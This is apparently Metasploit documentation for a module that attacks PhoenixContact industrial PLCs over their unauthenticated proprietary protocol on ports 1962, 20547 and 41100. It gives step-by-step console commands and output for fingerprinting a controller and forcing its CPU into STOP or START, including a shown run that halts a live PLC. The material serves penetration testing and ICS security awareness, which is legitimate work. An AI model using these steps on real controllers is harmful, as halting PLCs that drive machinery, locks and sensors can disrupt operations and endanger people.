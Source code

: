 PhoenixContact Programmable Logic Controllers are built are using a variant of
ProConOS. The communicate using a proprietary protocol over ports TCP/1962 and
TCP/41100 or TCP/20547.  This protocol allows a user to remotely determine the
PLC type, firmware and build number on port TCP/1962.  A user can also
determine the CPU State (Running or Stopped) and start or stop the CPU.

This functionality is confirmed for the PLC series ILC 15x and 17x on TCP port
20547, and for the ILC 39x series on TCP port 41100. Other series may or
may not work, but there is a good chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched. Possible
mitigations include: pulling the plug (literally), using network isolation
(Firewall, Router, IDS, IPS, network segmentation, etc...) or not allowing bad
people on your network.

Most, if not all, PLC's (computers that control engines, robots, conveyor
belts, sensors, camera's, doorlocks, CRACs ...) have vulnerabilities where,
using their own tools, remote configuration and programming can be done
*WITHOUT* authentication.  Investigators and underground hackers are just now
creating simple tools to convert the, often proprietary, protocols into simple
scripts.  The operating word here is proprietary. Right now, the only thing
stopping very bad stuff from happening.  PhoenixContact uses an (unnamed?)
low-level protocol for connection, information exchange and configuration of
its PLC devices.  This script utilizes that protocol for finding information
and switching the PLC mode from STOP to RUN and vice-versa.

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build
date and current CPU mode (RUNing or STOPed)

The first three pieces of data (Type, Firmware & Build) are always found on
port TCP/1962 (there is no way of changing that port on the PLC, so also no
reason to change the 'RINFOPORT' option)

The CPU mode uses a TCP port depending on the PLC Type, the module will
automatically detect the type and port to use, but can be overridden with the
'RPORT' option, however no real reason to configure it. If you accidentally set RPORT, you can unset it with the ```unset RPORT``` command.

### The ACTION option

Action has four possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP':

```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low:

```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, where it keeps running it was or it will start executing its current boot programming:

```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN:

```
msf auxiliary(phoenix_command) > set ACTION REV
```
